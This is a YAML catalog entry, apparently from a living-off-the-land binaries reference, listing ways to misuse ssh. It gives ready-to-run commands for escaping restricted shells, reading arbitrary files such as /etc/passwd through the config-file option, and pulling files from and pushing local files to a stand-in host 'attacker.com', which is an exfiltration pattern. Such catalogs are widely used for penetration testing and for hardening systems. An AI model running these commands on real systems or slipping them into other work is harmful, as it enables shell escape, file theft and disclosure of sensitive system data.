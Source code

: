 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=where_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=where_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-read:
    - description: Read strings from text files. Reliability depends on content of files but works well with /etc/passwd
    - code: |
        LFILE=file_to_read    
        ssh -F $LFILE localhost
---
```

